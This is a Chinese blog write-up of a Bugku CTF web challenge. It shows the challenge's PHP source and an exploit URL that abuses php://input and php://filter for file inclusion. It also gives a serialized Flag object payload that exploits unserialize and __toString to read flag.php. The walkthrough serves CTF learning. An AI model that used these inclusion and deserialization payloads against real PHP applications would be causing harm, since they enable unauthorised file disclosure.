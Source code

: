 <!--yml
category: 未分类
date: 2022-04-26 14:53:29
-->

# welcome to bugkuctf（详解）——Bugku_weixin_33728268的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_33728268/article/details/89625741](https://blog.csdn.net/weixin_33728268/article/details/89625741)

刚刚做了bugku的题目现在整理一下

写出解题思路希望能够帮助到那些需要帮助的人

所有的wp都是以一题一篇的形式写出

主要是为了能够让读者更好的阅读以及查找

希望你们不要责怪共勉

![](img/dff758bfeef56adb8bd844523f6a9fe6.png)

解题思路这一题我一开始的时候使用的是hackbar并没有任何反应所以最后选择使用burp

那么解题思路就以burp来写了

首先使用burp进行抓包处理就好

![](img/ffb358ae7fc7aa432d51efc772e31946.png)

可以看到源代码我大概的说一下其中的含义

1.三个传参

2.$user存在且不为空

3.读取$user文件内容为welcome to the bugkuctf

4.$file要求为hint.php将其导入

其实比较熟悉就知道两个点可以利用了php://input与php://filter

这里需要使用的是php://input

当传进去的参数作为文件名变量去打开文件时可以将参数php://传进

同时post方式传进去值作为文件内容供php代码执行时当做文件内容读取

![](img/e2968d6d47211c7119de8182a5511d15.png)

我们再利用php://filter 读取hint.php的内容就好了

使用的load url:

http://120.24.86.145:8006/test1/index.php?txt=php://input&file=php://filter/read=convert.base64-encode/resource=hint.php&password=

![](img/3111ef69d53cb72b63f7279c2f4a0a9b.png)

属于base64编码进行解密就会得到

```
<?php class Flag{//flag.php 
    public $file; public function __tostring(){ if(isset($this->file)){ echo file_get_contents($this->file); echo "<br>"; return ("good");
        }  
    }  
} ?> 
```

同理把hint.php改为index.php就会得到

![](img/5697b676f71800b0c49da1e6e3e631c0.png)

又是一段base64编码的同理就会得到

```
<?php $txt = $_GET["txt"]; $file = $_GET["file"]; $password = $_GET["password"]; if(isset($txt)&&(file_get_contents($txt,'r')==="welcome to the bugkuctf")){ echo "hello friend!<br>"; if(preg_match("/flag/",$file)){ echo "给你 flag吧¦"; exit();  
    }else{ include($file); $password = unserialize($password); echo $password;  
    }  
}else{ echo "you are not the number of bugku ! ";  
} ?>  

<!--  
$user = $_GET["txt"]; $file = $_GET["file"]; $pass = $_GET["password"]; if(isset($user)&&(file_get_contents($user,'r')==="welcome to the bugkuctf")){ echo "hello admin!<br>"; include($file); //hint.php 
}else{ echo "you are not admin ! ";  
} --> 
```

从上面获取的源码可得到如下信息

1.提示hint.php中提示flag.php,从index.php可以看到对关键词flag进行了屏蔽

2.hint.php中定义了一个类Flag很有意思的是中间有个 __tostring 方法这个方法可以理解为将这个类作为字符串执行时会自动执行的一个函数

3. __tostring 方法执行时将变量$file作为文件名输出文件内容结合提示flag.php猜测屏蔽的flag.php文件在此打开

4.在index.php源码中看到了$password的作用

这里走进了一个坑一直在想办法绕过flag关键词的屏蔽但是限制于php://fliter的格式一直不得其解

正解应该是利用$password

之前说过Flag方法当做字符串执行时会自动执行 __tostring 方法注意到echo函数只能输出一个或多个字符串所以只要$password为Flag类型数据且其中string类型的变量$file为flag.php即可

理解到这里就懂了为啥多一个很奇怪的unserialize函数其作用即为让你用字符串方式传递一个类

这里参考的博文是https://blog.csdn.net/wy_97/article/details/77771026

执行得到O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}

就会得到

![](img/d5f2efe525ee73d257f3dc2e3645b0f4.png)

最后的答案flag{php_is_the_best_language}

您可以考虑给博主来个小小的打赏以资鼓励您的肯定将是我最大的动力。

关于作者潜心于网络安全学习。如有问题或建议请多多赐教

版权声明本文版权归作者和博客园共有欢迎转载但未经作者同意必须保留此段声明且在文章页面明显位置给出原文连接.

特此声明所有评论和私信都会在第一时间回复。也欢迎园子的大大们指正错误共同进步。或者直接私信我

声援博主如果您觉得文章对您有帮助可以点击文章右下角【推荐】一下。您的鼓励是作者坚持原创和持续写作的最大动力